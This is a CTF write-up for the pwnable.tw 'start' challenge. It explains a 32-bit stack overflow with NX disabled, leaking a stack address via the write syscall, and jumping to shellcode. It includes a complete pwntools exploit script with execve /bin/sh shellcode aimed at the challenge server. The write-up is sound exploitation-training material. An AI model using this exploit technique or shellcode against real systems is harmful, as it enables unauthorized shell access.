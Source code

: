 +++
title = "pwnable.tw - start"
date = 2019-11-22T18:30:01.515Z
updated = 2020-12-27
aliases = ["/posts/5cfff3292569df08a43d04cc-pwnabletw-start"]
[taxonomies]
tags = ['pwnable.tw', 'binary-exploitation', 'pwntools', 'shellcode']
categories = ["ctf-writeups"]
+++

We are given a linux binary. To start off, lets run `checksec` on it:

```
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
```

It looks like NX is disabled, so if needed, we can place and execute shell code from the stack. To understand how this 
binary works, I opened it with `Ghidra`. There are only two functions, `_entry` and `_exit`. Let's look at `_entry` first. 
Although the decompilation is mostly useless, the disassembly is more than enough.


![](5cff109009821b08235e212a.png)

We can see two `int 0x80`s that are syscalls. Looking at the value of `eax` and by referencing a 
[32-bit syscall table](https://www.informatik.htw-dresden.de/~beck/ASM/syscall_list.html), we can identify them. The 
reversed syscalls are shown in comments in the above screenshot. It's also clear that we control `EIP` due to the large 
` read` syscall that will overflow into the save return address on the stack.

As we saw earlier, the `NX` bit is disabled, so we can jump to our shellcode. To do so, we need to leak a stack address 
to identify where to jump to. Using [pwndbg](https://github.com/pwndbg/pwndbg), it's easy to watch the stack during 
execution.

<!-- more -->

![](5cff13e309821b08235e212c.png)

The first value that is pushed onto the stack is `ESP` (`0x8048060`). If we were to read past the values pushed onto the 
stack, we'll be able to leak a stack address. What happens if we return to `0x8048087`? Since the `ADD ESP, 0x14` before 
the `RET` will clear the stack, the `write` syscall will print out a stack address. After leaking the stack address, we 
know that we will write our shell code 20 bytes after the base pointer. We need to return to `ESP + 0x14`. Let's try it 
out.

I'll use `pwntools` to ease communications with the binary. 

```Python

from pwn import *

context.terminal = '/bin/sh'


WRITE_ADDR = 0x8048087

r = remote('chall.pwnable.tw', 10000)

r.recvuntil(':')


payload =  'A'*0x14        # Padding
payload += p32(WRITE_ADDR) # Overwrite EIP with the write syscall

r.write(payload)

LEAKED_ADDR = u32(r.read(400)[:4])

log.info("Leaked address 0x%x" % LEAKED_ADDR)

from binascii import unhexlify
# http://shell-storm.org/shellcode/files/shellcode-811.php
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

payload =  'A'*0x14
payload += p32(LEAKED_ADDR + 0x14)
payload += shellcode
payload += 'ls\n'
r.write(payload)

r.interactive()
```

This gives us a shell, and if we explore the server, we will find the flag in `/home/start/flag`.
